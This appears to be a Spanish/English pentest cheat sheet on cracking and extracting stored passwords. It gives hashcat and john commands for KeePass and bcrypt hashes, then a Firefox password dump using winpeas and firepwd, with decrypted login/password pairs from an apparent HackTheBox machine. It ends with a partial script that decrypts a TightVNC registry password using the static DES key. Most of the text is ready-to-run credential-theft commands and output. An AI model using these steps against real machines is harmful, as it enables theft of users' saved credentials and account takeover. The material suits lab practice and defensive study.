 - chars="abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ"
- chars+="0123456789"
- python3 generate_pass.py "●ødgrød med fløde" "$chars" "pass.txt"
- `hashcat -m 13400 keephash.txt pass.txt`
- `john --wordlist=pass.txt keephash.txt`


### About john the ripper
- The truth is that I don't give much importance to john the ripper, it is a very versatile tool but **the power of hashcat is beyond comparison**.


## bcrypt cracking commands
- `hashcat -m 3200 -a 0 hash.txt rockyou.txt`



## Firefox Password dumper
- Primero tenemos que ubicar si la maquina tiene firefox instalado, y si es así, tenemos que ubicar el perfil de firefox.
- Para esto recomiendo utilizar winpeas

``` 
  [+] Looking for Firefox DBs
   [?]  https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#browsers-history
    Firefox credentials file exists at C:\Users\nikk37\AppData\Roaming\Mozilla\Firefox\Profiles\br53rxeg.default-release\key4.db
 ```

 - Una vez que tenemos el perfil, tenemos que copiar la carpeta `br53rxeg.default-release` a nuestra máquina. 
 - Podemos utilizar [firepwd](https://github.com/lclevy/firepwd) para extraer las contraseñas.

 ```bash
 ┌──(kali㉿kali)-[~/firepwd]
└─$ python3 firepwd.py
<SNIP>
decrypting login/password pairs
https://slack.streamio.htb:b'admin',b'JDg0dd1s@d0p3cr3@t0r'
https://slack.streamio.htb:b'nikk37',b'n1kk1sd0p3t00:)'
https://slack.streamio.htb:b'yoshihide',b'paddpadd@12'
https://slack.streamio.htb:b'JDgodd',b'password@12'
``` 

## TightVNC password attack
- dentro de los registros de windows, podemos encontrar el tightvnc password en la siguiente ruta:
- HKEY_LOCAL_MACHINE\SOFTWARE\TightVNC\Server
- Que va a contener `"Password"=hex:6b,cf,2a,4b,6e,5a,ca,0f`
- En nuestra maquina atcante podemos utilizar un script que usa openssl para desencriptar la contraseña

```bash
#!/bin/bash

# Clave DES estática usada por TightVNC
KEY="e84ad660c4721ae0"

# Hex input (ej: 6bcf2a4b6e5aca0f)
read -p "Hexadecimal VNC password: " HEX

# Archivo temporal
ENC_FILE=$(mktemp)
DEC_FILE=$(mktemp)

# Convertir el hex a binario
echo "$HEX" | xxd -r -p > "$ENC_FILE"
```